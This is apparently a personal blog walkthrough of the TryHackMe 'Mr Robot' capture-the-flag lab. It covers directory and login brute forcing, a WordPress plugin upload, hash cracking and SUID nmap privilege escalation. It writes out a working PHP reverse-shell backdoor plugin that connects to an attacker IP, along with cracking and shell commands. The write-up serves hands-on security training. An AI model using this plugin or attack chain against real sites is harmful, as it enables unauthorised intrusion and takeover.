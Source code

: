 ```yaml
---
title: "[TryHackMe] walkthrough: Mr Robot (Medium, Linux)"
date: 2025-02-14
categories: [tryhackme]
tags: [thm, linux, medium]
---
```


![head](/assets/images/tryhackme/mr_robot/스크린샷%202025-08-23%20오후%207.29.02.png)

## Info

- Platform: Tryhackme
- Machine Name: Mr Robot
- Target IP/Host: 10.10.156.218
- OS / Version: Linux
- Difficulty / Category: Medium

## Overview

Directory brute forcing -> find wp-login -> password brute force -> get admin perm -> revshell wordpress plugin upload -> initial access -> find suid binary -> priv escalation

Lets get started right away.

## Recon & Enumeration

I found that the ip address is 10.10.156.218, so I started scanning to gather some information.

As a result, I found that ports 22, 80, 443 were open. And I decided to check port 80 first.

![nmap](/assets/images/tryhackme/mr_robot/스크린샷%202025-08-23%20오후%207.31.29.png)

Port 80 and 443 showed the same web page.

It was an interactive page, but nothing seemed important or useful.

![web](/assets/images/tryhackme/mr_robot/스크린샷%202025-08-23%20오후%207.32.06.png)

Next, I tried directory brute forcing.

I found /robots.txt, /wp-loign.

![dir](/assets/images/tryhackme/mr_robot/스크린샷%202025-08-23%20오후%207.32.36.png)

In /robots.txt, I found a wordlist file called fsocity.dic and first flag.

![dic](/assets/images/tryhackme/mr_robot/스크린샷%202025-08-23%20오후%207.33.33.png)

![flag](/assets/images/tryhackme/mr_robot/스크린샷%202025-08-23%20오후%207.34.08.png)

After that, I visited /wp-login.

![web](/assets/images/tryhackme/mr_robot/스크린샷%202025-08-23%20오후%207.34.49.png)

## Initial Access

I captured the login request using burp suite.

The username parameter was log, and the password parameter was pwd.

When I tried invalid username, the page showed the message ‘invalid username’.
![burp](/assets/images/tryhackme/mr_robot/스크린샷%202025-08-23%20오후%207.35.25.png)

So I used the wordlist I found earlier to brute force the username.

I found a valid username:Elliot.

![hydra](/assets/images/tryhackme/mr_robot/스크린샷%202025-08-23%20오후%207.35.59.png)

Next, I used the same wordlist to brute force the password for the user:Elliot.

I was able to find the correct password.

![hydra](/assets/images/tryhackme/mr_robot/스크린샷%202025-08-23%20오후%207.36.43.png)

Using the credentials, I successfully logged into Wordpress.

Next, I tried to get a reverse shell by uploading a plugin.

The plugin payload was as follows:

```
# reverse.php
<?php
$ip = '10.0.0.1';  // attacker IP
$port = 4444;      // listening port
$sock = fsockopen($ip, $port);
$proc = proc_open('/bin/sh', array(0=>$sock, 1=>$sock, 2=>$sock), $pipes);
?>

# evil-plugin.php
<?php
/*
Plugin Name: Evil Plugin
Plugin URI: http://example.com/
Description: This is a backdoor plugin.
Version: 1.0
Author: Attacker
*/

include('reverse.php'); 
?>

# same folder
zip -r evil-plugin.zip evil-plugin
```

I uploaded the plugin as .zip, and executed it.

As a result, I got a reverse shell.

When I checked user using the ‘id’ command, it showed that I was ‘daemon’.

![rev](/assets/images/tryhackme/mr_robot/스크린샷%202025-08-23%20오후%207.37.30.png)

I checked the /home/robot directory and saw that the second flag was there, but I didn’t have permission to read it.

However, I was able to see a hashed password in same directory.

![hash](/assets/images/tryhackme/mr_robot/스크린샷%202025-08-23%20오후%207.38.02.png)

## Privilege Escalation

I used hashcat to crack the hash, and I was able to recover the password.

`hashcat -m 0 -a 0 hash.txt /usr/share/wordlists/rockyou.txt`

![hash](/assets/images/tryhackme/mr_robot/스크린샷%202025-08-23%20오후%207.38.44.png)

I used the password to switch to the robot user.

After that, I got second flag.

Next, I searched the system for binary files with the SUID permissions to escalate to root.

![suid](/assets/images/tryhackme/mr_robot/스크린샷%202025-08-23%20오후%207.39.41.png)

I noticed the nmap binary had the SUID permission.

Using gtfobins, I found a way to bypass it and get root access.

![gtfo](/assets/images/tryhackme/mr_robot/스크린샷%202025-08-23%20오후%207.40.08.png)

`python -c 'import pty; pty.spawn("/bin/bash")'`

In the end, I gained root access and got the final flag from the /root directory.

![root](/assets/images/tryhackme/mr_robot/스크린샷%202025-08-23%20오후%207.40.45.png)

